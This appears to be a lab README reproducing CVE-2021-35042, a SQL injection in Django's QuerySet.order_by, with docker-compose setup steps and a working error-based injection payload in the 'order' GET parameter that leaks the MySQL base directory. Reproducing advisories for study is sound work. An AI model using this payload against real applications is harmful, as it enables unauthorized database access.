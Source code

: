 # Django QuerySet.order_by SQL Injection Vulnerability (CVE-2021-35042)

[中文版本(Chinese version)](README.zh-cn.md)

Django released a security update on July 1, 2021, which fixes a SQL injection vulnerability in the function QuerySet.order_by.

Reference link:

- https://www.djangoproject.com/weblog/2021/jul/01/security-releases/

The vulnerability requires the developer to use order_by function. Moreover, the input of the queryset can be controlled.

## Start Vulnerability Application

Compile and start a vulnerable Django 3.2.4 by executing the following command:

```
docker-compose build
docker-compose up -d
```

After the environment is started, you can see the home page of Django at `http://your-ip:8000`.

## Vulnerability Reproduce

First, go to the list-view `http://your-ip:8000/vuln/` and add `order=-id` to the GET parameter.

http://your-ip:8000/vuln/?order=-id

You will see the data sorted by id in descending order:

![](1.png)

Add `order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@basedir)),1)%23` to the GET parameter, where `vuln` is your app and `collection` is the models.

`http://your-ip:8000/vuln/?order=vuln_collection.name);select%20updatexml(1,%20concat(0x7e,(select%20@@basedir)),1)%23`

You can see that the single bracket  has been injected successfully, and you can get the information from the error:

![](2.png)
